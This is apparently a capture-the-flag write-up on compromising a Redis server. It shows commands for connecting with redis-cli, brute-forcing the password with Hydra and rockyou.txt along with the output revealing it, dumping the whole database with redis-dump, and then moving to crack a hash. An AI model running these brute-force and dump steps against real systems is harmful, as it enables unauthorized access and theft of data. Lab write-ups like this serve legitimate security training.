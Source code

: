 So we have some interesting ports 22 which is SSH and 6379 ahhh the mighty Redis port but no HTTP or HTTPS i mean port 80 or 443 man don't google that up again lol just kidding man. I think we all know port ssh but before diving deep let look into the redis port.

### What IS Redis


Redis is an in-memory data structure store, used as a distributed, in-memory key–value database, cache and message broker, with optional durability. Redis supports different kinds of abstract data structures, such as strings, lists, maps, sets, sorted sets, HyperLogLogs, bitmaps, streams, and spatial indices. which is always on port 6379 which can always change also probably for security reason man let just hack it feel free to check redis Documentation.

### Redis Manual Enumeration

```
 redis-cli -h  193.37.212.211
 ```
 
 ![image](https://user-images.githubusercontent.com/69868171/130943953-d2b38248-c655-4145-a841-d3f440a5afc4.png)

Seems anonymous logins is not allowed let try brute forcing with hydra.

```
┌──(muzec㉿Muzec-Security)-[~/Desktop/CTFPlayground/ABC/ABCWriteup]
└─$ hydra -P /usr/share/wordlists/rockyou.txt  193.37.212.211  redis         
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-08-26 08:05:50
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking redis://193.37.212.211:6379/
[6379][redis] host: 193.37.212.211   password: hotdog
[STATUS] 2964.00 tries/min, 2964 tries in 00:01h, 14341435 to do in 80:39h, 16 active
```

Ahhh nice we have the password now let log in redis again with the new credentials.

![image](https://user-images.githubusercontent.com/69868171/130944608-82c019eb-b151-4af1-b8e0-3da5040fadc7.png)

We are in typing `info` give us some more information about the databases and bla bla bla now let dump something using `redis-dump` .

```
redis-dump -u  193.37.212.211  -a hotdog > full.json
```

![image](https://user-images.githubusercontent.com/69868171/130945239-7519d0c7-1a42-466c-a7e8-116f2d28125f.png)

Avoid the `wget bla bla bla` i don't know what the dude is trying to wget again in redis now we have the credentials let just crack the hash.

![image](https://user-images.githubusercontent.com/69868171/130945574-eddcabc4-1e04-462d-b484-dcd01dd69b31.png)
